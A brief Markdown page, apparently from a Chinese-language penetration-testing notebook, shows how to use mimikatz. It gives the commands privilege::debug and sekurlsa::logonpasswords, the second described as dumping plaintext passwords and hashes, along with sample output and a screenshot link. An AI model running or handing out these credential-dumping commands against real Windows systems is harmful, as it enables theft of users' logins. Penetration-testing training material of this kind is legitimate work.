 ```yaml
---
title: "4.1.1 mimikatz"
id: zhfly3416
---
```


### 4.1.1 mimikatz

用法:

```
mimikatz # privilege::debug (提升权限)
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords (抓取明文密码和 hash) 
```

![image](../img/2b62e00a405c41ae21d7874d2b61212b.png)